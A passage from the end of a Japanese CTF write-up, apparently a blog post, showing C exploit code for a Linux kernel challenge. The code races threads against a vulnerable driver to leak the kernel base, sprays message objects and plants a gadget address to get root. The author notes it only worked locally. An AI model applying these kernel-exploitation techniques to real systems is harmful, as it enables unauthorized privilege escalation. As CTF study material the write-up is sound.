 ```exploit-only-work-in-local.c
  struct _msgbuf2e0 msgbuf2e0 = {.mtype = 2};
  //KMALLOC(qid, msgbuf, 0x40);
  KMALLOC(qid, msgbuf2e0, 0x5);

  // leak kernbase
  _create(nutfd, 0x20, 0x20, buf);
  int appender_fd = pthread_create(&appender_thr, NULL, appender , 0);
  if(appender_fd > 0)
    errExit("appender_fd");
  int shower_fd = pthread_create(&shower_thr, NULL, shower, 0);
  if(shower_fd > 0)
    errExit("shower_fd");
  void *ret_shower;
  pthread_join(appender_thr, 0);
  pthread_join(shower_thr, &ret_shower);
  const ulong single_start = (ulong)ret_shower;
  kernbase = single_start - 0x1FA9E0;
  printf("[!] kernbase: 0x%lx\n", kernbase);

  // <until here, there is NO corruption //
  leaked = -1;
  target_idx = 1;
  memset(buf, 'B', 0x200);
  for(int ix=1; ix!=0x30; ++ix){
    ((ulong*)buf)[ix] = 0xdead00000 + ix*0x1000;
  }
  printf("[+] starting point: 0x%lx\n", kernbase + 0x00CF31);
  ((ulong*)buf)[0x60/8] = kernbase + 0x00CF31;

  _create(nutfd, second_size, second_size, buf);
  _create(nutfd, 0x2e0, 0x2e0, buf);

  save_state();
  appender_fd = pthread_create(&appender_thr, NULL, appender , 0);
  if(appender_fd > 0)
    errExit("appender_fd");
  int writer_fd = pthread_create(&writer_thr, NULL, writer, 0);
  if(writer_fd > 0)
    errExit("writer_fd");
  pthread_join(appender_thr, 0);
  pthread_join(writer_thr, 0);

  NIRUGIRI();
  return 0;
}
```

# アウトロ
<ここにlocal rootの画像ぽよ>

最近kernel問をちょこちょこ解いていたから、ちゃんとCTF開催期間中にremoteでrootを取りたかった。
ちゃんと寝たあとに、**復習してちゃんと動くexploitを書き直す**。
おやすみなさい。。。


# 参考
ニルギリ
https://youtu.be/yvUvamhYPHw
